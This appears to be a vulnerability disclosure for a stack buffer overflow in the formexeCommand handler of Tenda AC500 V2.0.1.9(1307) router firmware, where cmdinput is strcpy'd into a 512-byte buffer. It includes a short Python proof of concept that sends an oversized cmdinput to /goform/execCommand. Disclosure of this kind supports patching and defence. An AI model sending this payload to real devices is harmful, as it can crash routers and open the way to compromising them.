 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail--2470.html

## Affected version

AC500 V2.0.1.9(1307)

## Vulnerability details

The Tenda AC500 V2.0.1.9(1307) firmware has a stack overflow vulnerability in the `formexeCommand` function. The `src` variable receives the `cmdinput` parameter from a POST request and is later assigned to the `s` variable, which is fixed at 512 bytes. However, since the user can control the input of `cmdinput`, the statement `strcpy(s, src);` can cause a buffer overflow. The user-provided `cmdinput` can exceed the capacity of the `s` array, triggering this security vulnerability.

![image-20240308164307690](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308164307690.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookie":"cmdinput=" + "A"*1000}
ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410095430899.png)
